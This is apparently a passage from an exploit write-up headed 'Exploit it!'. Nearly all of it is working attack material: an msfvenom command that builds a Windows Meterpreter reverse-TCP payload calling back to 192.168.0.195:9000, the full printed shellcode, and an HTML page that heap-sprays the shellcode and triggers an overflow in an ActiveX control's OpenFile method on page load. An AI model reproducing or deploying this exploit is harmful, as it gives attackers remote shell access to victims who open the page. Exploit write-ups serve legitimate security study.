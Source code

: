 
## 0x003 Exploit it!

Generate paylaod by msf.
```
λ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.195 LPORT=9000 -f js_le
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of js_le file: 1026 bytes
%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u685d%u3233%u0000%u7768%u3273%u545f%u4c68%u2677%u8907%uffe8%ub8d0%u0190%u0000%uc429%u5054%u2968%u6b80%uff00%u6ad5%u680a%ua8c0%uc300%u0268%u2300%u8928%u50e6%u5050%u4050%u4050%u6850%u0fea%ue0df%ud5ff%u6a97%u5610%u6857%ua599%u6174%ud5ff%uc085%u0a74%u4eff%u7508%ue8ec%u0067%u0000%u006a%u046a%u5756%u0268%uc8d9%uff5f%u83d5%u00f8%u367e%u368b%u406a%u0068%u0010%u5600%u006a%u5868%u53a4%uffe5%u93d5%u6a53%u5600%u5753%u0268%uc8d9%uff5f%u83d5%u00f8%u287d%u6858%u4000%u0000%u006a%u6850%u2f0b%u300f%ud5ff%u6857%u6e75%u614d%ud5ff%u5e5e%u0cff%u0f24%u7085%uffff%ue9ff%uff9b%uffff%uc301%uc629%uc175%ubbc3%ub5f0%u56a2%u006a%uff53%u41d5
```

Win~
```
<html>
<head>
	<object id="rsp" classid='clsid:3C88113F-8CEC-48DC-A0E5-983EF9458687'></object>
</head>
<body>
<script language='javascript'>

	var Shellcode = unescape('%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u685d%u3233%u0000%u7768%u3273%u545f%u4c68%u2677%u8907%uffe8%ub8d0%u0190%u0000%uc429%u5054%u2968%u6b80%uff00%u6ad5%u680a%ua8c0%uc300%u0268%u2300%u8928%u50e6%u5050%u4050%u4050%u6850%u0fea%ue0df%ud5ff%u6a97%u5610%u6857%ua599%u6174%ud5ff%uc085%u0a74%u4eff%u7508%ue8ec%u0067%u0000%u006a%u046a%u5756%u0268%uc8d9%uff5f%u83d5%u00f8%u367e%u368b%u406a%u0068%u0010%u5600%u006a%u5868%u53a4%uffe5%u93d5%u6a53%u5600%u5753%u0268%uc8d9%uff5f%u83d5%u00f8%u287d%u6858%u4000%u0000%u006a%u6850%u2f0b%u300f%ud5ff%u6857%u6e75%u614d%ud5ff%u5e5e%u0cff%u0f24%u7085%uffff%ue9ff%uff9b%uffff%uc301%uc629%uc175%ubbc3%ub5f0%u56a2%u006a%uff53%u41d5');

	var NopSlide = unescape('%u9090%u9090');

	var headersize = 20;
	var slack = headersize + Shellcode.length;

	while(NopSlide.length < slack) NopSlide += NopSlide;
	var filler = NopSlide.substring(0,slack);
	var chunk = NopSlide.substring(0,NopSlide.length - slack);

	while(chunk.length + slack < 0x40000) chunk = chunk + filler;
	var memory = new Array();
	for(i = 0;i<500;i++){ memory[i] = chunk + Shellcode; }

	// Trigger
	pointer = ''
	for(counter=0;counter<=1000;counter++) pointer+=unescape("%0C");
	rsp.OpenFile(pointer);

</script>
```
